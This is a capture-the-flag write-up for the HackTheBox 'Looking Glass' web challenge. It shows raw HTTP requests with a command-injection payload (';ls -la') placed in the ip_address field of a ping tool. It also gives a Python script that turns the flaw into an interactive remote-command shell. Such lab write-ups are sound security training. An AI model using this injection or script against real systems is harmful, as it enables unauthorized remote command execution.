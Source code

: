 ```yaml
---
title: "HackTheBox Writeup- Looking Glass"

categories: [HacktheBox - Challenges]

tags: [easy,RCE,Scripting,Web]

image: https://d3an9kf42ylj3p.cloudfront.net/uploads/2012/12/Looking-Glass-300x300.jpg
---
```



## CHALLENGE DESCRIPTION

We've built the most secure networking tool in the market, come and check it out!


## PROOF OF CONCEPT
The Looking  Glass website allow the user the troubleshoot and check status of the server the server’s through `ping` and `traceroute` commands 

![Untitled](/assets/img/looking_glass/Untitled.png)


&nbsp;

By intercepting (Burp_suite) the request , it sends a `POST` request to the server to perform a ping request to the IP `206.189.120.31` 

```bash
POST / HTTP/1.1
Host: 206.189.120.31:31868
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: http://206.189.120.31:31868
Connection: close
Referer: http://206.189.120.31:31868/
Upgrade-Insecure-Requests: 1

test=ping&ip_address=206.189.120.31&submit=Test
```

&nbsp;

In the Response , It  can observed that  the output put of ping .

![Untitled](/assets/img/looking_glass/Untitled1.png)

&nbsp; 

The  semicolon (`;`) either in windows command Prompt or linux terminal is used to seperate multiple command in a single line .
&nbsp; 

In the below request the , after the parameter `ip_address` ,inserted the semicolon  to separate the first command , so any next command command can be executed. 

Now, next to the parameter `ip_address=;ls+la`   is placed to verify  the remote code can be executed .

```python
POST / HTTP/1.1
Host: 206.189.120.31:31868
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: http://206.189.120.31:31868
Connection: close
Referer: http://206.189.120.31:31868/
Upgrade-Insecure-Requests: 1

test=ping&ip_address=;ls+-la&submit=Test
```

&nbsp; 

From the below output of list view of the `ls+-la` command ,it is visible that the aribitary remote commands can be executed on the server.

![Untitled](/assets/img/looking_glass/Untitled2.png)

&nbsp; 

In the root directory(`/`) , have the flag to the challenge.

![Untitled](/assets/img/looking_glass/Untitled3.png)

&nbsp; 

I have writren a python script to automate the process to run shell command from command line

```python
import requests,sys
from bs4 import BeautifulSoup as bs
import urllib

# your ip here 
ip = '206.189.120.31:31868' 

headers = {
        'Host': f'{ip}',
        'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/114.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-GB,en;q=0.5',
        # 'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded',
        # 'Content-Length': '36',
        'Origin': f'http://{ip}',
        'Connection': 'close',
        'Referer': f'http://{ip}',
        'Upgrade-Insecure-Requests': '1',
}

try:
    with requests.session() as s:
        request = s.get(f'http://{ip}/')
        if request.ok:
            while True:
                try:
                    cmd = input("\033[0;32mRCE\033[0m -> ")
                    command = urllib.parse.unquote(cmd)
                    data = f'test=ping&ip_address=;{command}&submit=Test'
                    response = s.post(f'http://{ip}/', headers=headers, data=data, verify=False)
                    resp = response.content.decode()
                    soup = bs(resp,"html.parser")
                    text = soup.find_all('textarea')[0].text
                    print(text.strip())
                except KeyboardInterrupt:
                        sys.exit()
                except ConnectionError:
                        print('lost connection to the Server')
                        sys.exit()
        else:
            print("check the connection")         
finally:
    pass
```

&nbsp; 

This the output of the python script

![Untitled](/assets/img/looking_glass/Untitled4.png)